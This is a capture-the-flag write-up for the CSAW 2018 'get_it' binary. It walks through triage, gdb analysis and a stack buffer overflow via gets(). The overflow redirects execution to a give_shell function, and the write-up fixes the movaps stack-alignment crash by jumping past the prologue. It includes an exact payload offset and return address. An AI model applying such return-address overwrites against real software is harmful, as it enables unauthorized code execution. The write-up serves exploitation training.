 # get_it csaw18

## Triage

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ checksec get_it
[*] '/home/noobuntu/nightmare/bof/ret_func/getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ chmod +x get_it
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ ./get_it
Do you gets it??
yeah
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ ./get_it
Do you gets it??
123456789
```

- So it gets our input and does nothing.
- It gets our input with `gets` function:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ ltrace ./get_it > /dev/null
__libc_start_main(0x4005c7, 1, 0x7ffd894530f8, 0x400600 <unfinished ...>
puts("Do you gets it??")                                                                      = 17
gets(0x7ffd89452fc0, 1, 1, 0x40069eyup
)                                                          = 0x7ffd89452fc0
+++ exited (status 0) +++
```

## Static analysis

- Decompiling main and ghidra shows us it is simple enough.

![decompiled](scrs/decompiled.png)

- There is also `give_shell` function which spawns a shell.
- Our task is simple, overflow the `user_input` buffer so it changes execution.
- Address of `give_shell` function is:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ objdump -Mintel -d get_it | grep give_shell
00000000004005b6 <give_shell>:
```

- So return address must be `\xb6\x05\x40\x00\x00\x00\x00\x00`
- I'll write the exploit so I can automate this process.
- But before that let's figure out how much padding I need to add.

## Dynamic analysis

- `gdb` time...

```sh
gef➤  disass main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:     push   rbp
   0x00000000004005c8 <+1>:     mov    rbp,rsp
   0x00000000004005cb <+4>:     sub    rsp,0x30
   0x00000000004005cf <+8>:     mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:    mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:    mov    edi,0x40068e
   0x00000000004005db <+20>:    call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:    lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:    mov    rdi,rax
   0x00000000004005e7 <+32>:    mov    eax,0x0
   0x00000000004005ec <+37>:    call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:    mov    eax,0x0
   0x00000000004005f6 <+47>:    leave
   0x00000000004005f7 <+48>:    ret
End of assembler dump.
gef➤  b *main+37
Breakpoint 1 at 0x4005ec
```

- Let's now run the program specify some string and figure out how much bytes I need to add to padding.

```sh
gef➤  search-pattern ABCD
[+] Searching 'ABCD' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6026b0 - 0x6026b6  →   "ABCD\n"
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7dbd000-0x7ffff7e15000), permission=r--
  0x7ffff7dcbea1 - 0x7ffff7dcbed8  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqr[...]"
  0x7ffff7ddcb2c - 0x7ffff7ddcb63  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwx[...]"
  0x7ffff7ddcbca - 0x7ffff7ddcbe4  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
  0x7ffff7ddcc1a - 0x7ffff7ddcc3e  →   "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdd50 - 0x7fffffffdd54  →   "ABCD"
gef➤  i f
Stack level 0, frame at 0x7fffffffdd80:
 rip = 0x4005f1 in main; saved rip = 0x7ffff7c29d90
 Arglist at 0x7fffffffdd70, args:
 Locals at 0x7fffffffdd70, Previous frame's sp is 0x7fffffffdd80
 Saved registers:
  rbp at 0x7fffffffdd70, rip at 0x7fffffffdd78
```

- `0x7fffffffdd78` - `0x7fffffffdd50` is `0x28` and that is 40 in decimal.
- So 40 bytes for the padding and we should be then overwritting the return address.
- Craft the input with:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof$ python3 -c 'print(b"\x41" * 40 + b"\x51\x52\x53\x54")' > ret_func/getit/input.txt
```

- Now let's run our program with `input.txt`
- For brevity, when the program starts complaining in `gdb` about `[!] Cannot disassemble from $PC`, you know you've affected the return address somehow.

## Exploitation

- Running the `exploit.py` and getting this in `gdb`:

```sh
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4005ec <main+0025>      call   0x4004a0 <gets@plt>
●    0x4005f1 <main+002a>      mov    eax, 0x0
     0x4005f6 <main+002f>      leave
 →   0x4005f7 <main+0030>      ret
   ↳    0x4005b6 <give_shell+0000> push   rbp
        0x4005b7 <give_shell+0001> mov    rbp, rsp
        0x4005ba <give_shell+0004> mov    edi, 0x400684
        0x4005bf <give_shell+0009> call   0x400480 <system@plt>
        0x4005c4 <give_shell+000e> nop
        0x4005c5 <give_shell+000f> pop    rbp
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "get_it", stopped 0x4005f7 in main (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4005f7 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

- So it successfully redirects execution to `give_shell` function, that's good.
- But just before it executes `system`, it crashes.
- Stack alignment problem, same as with the last challenge `warmup`.
- See output of `sudo dmesg | tail`:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ sudo dmesg | tail
[ 5184.591874] traps: get_it[4708] general protection fault ip:7c58eea50973 sp:7ffd58d29658 error:0 in libc.so.6[7c58eea28000+195000]
[ 5420.711357] traps: get_it[5098] general protection fault ip:4005f7 sp:7ffed2c3ca98 error:0 in get_it[400000+1000]
```

### "The movaps problem"

- Let's fix this problem and get our well deserved shell.
- __`movaps` instruction triggers SEGFAULT when stack isn't 16 byte aligned prior to a function call__.
- One easy evasion of this problem is to jump deeper into the function, instead of first instruction of `get_shell`.
- Here's the `get_shell` function:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/getit$ objdump -Mintel -d ./get_it | grep -A9 give_shell
00000000004005b6 <give_shell>:
  4005b6:       55                      push   rbp
  4005b7:       48 89 e5                mov    rbp,rsp
  4005ba:       bf 84 06 40 00          mov    edi,0x400684
  4005bf:       e8 bc fe ff ff          call   400480 <system@plt>
  4005c4:       90                      nop
  4005c5:       5d                      pop    rbp
  4005c6:       c3                      ret
```

- Let's jump to `0x004005ba` which is 2 instructions after our first one.
- Rewrite our `exploit.py` to load that address instead of `0x4005b6`.
- And just like that, we're in

![shell](scrs/shell.png)


---

#### Sources

1. https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows/05-bof_callfunction/csaw18_getit

